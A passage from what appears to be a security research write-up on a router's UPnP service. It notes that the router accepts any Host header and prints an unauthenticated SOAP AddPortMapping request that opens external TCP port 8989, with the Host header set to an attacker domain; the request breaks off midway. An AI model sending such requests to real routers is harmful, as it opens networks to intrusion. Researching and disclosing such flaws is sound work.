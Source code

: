   

The “**AddPortMapping**” action of the “**WANConnectionDevice**” service is regularly present in the implemented IGD Profile.

Moreover, as shown in the HTTP request and response below, the router doesn't validate the Host header because it regularly returns a 200 response even if the value "_attacker.mindedsecurity.com_" is inserted within the Host header.

Request:

```
POST /control/WANIPConnection HTTP/1.1
```

```
Host: attacker.mindedsecurity
```

```
SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping"
```

```
Content-Type: text/xml; charset="utf-8"
```

```
Content-Length: 714
```

```
​
```

```
<?xml version="1.0"?>
```

```
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
```

```
   <s:Body>
```

```
      <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
```

```
         <NewRemoteHost></NewRemoteHost>
```

```
         <NewExternalPort>8989</NewExternalPort>
```

```
         <NewProtocol>TCP</NewProtocol>
```
